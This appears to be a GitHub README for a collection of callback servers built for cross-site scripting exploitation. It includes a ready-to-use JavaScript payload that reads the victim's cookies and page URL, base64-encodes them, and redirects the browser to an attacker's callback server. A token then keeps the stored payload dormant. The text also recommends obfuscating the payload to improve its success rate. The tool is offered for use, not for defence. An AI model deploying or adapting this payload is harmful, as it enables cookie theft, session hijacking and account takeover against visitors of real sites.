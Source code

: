 A collection of Cross-Origin callback servers for XSS exploitation.

## Description

This repo contains a range of callback servers and an XSS payload that, once executed, will change the current window location of the victim to your callback server, which will respond with a **301 Moved Permanently** redirection back to where the victim came from (Origin), although this time with a token in the URL anchor, telling your (stored) XSS payload to stay dormant. Refine your payload as required.

## Usage

Use your callback server of choice and make sure it's listening.

Then throw the following code in your XSS payload. Be sure to change the address to that of your callback server, and change the token at the very least. The more you obfuscate this code, the higher your success rate will be, please do not open issues because it's not working for you.

```javascript
const token = "w3lRZ87e";
if (location.hash != token) self.location = "https://mycallbackserver.net/callback.php" + 
                	"?origin=" + encodeURIComponent( btoa(self.location.href) ) + 
                	"&data=" + encodeURIComponent( btoa(document.cookie) ) + 
                	"&token=" + encodeURIComponent( btoa(token) );
```
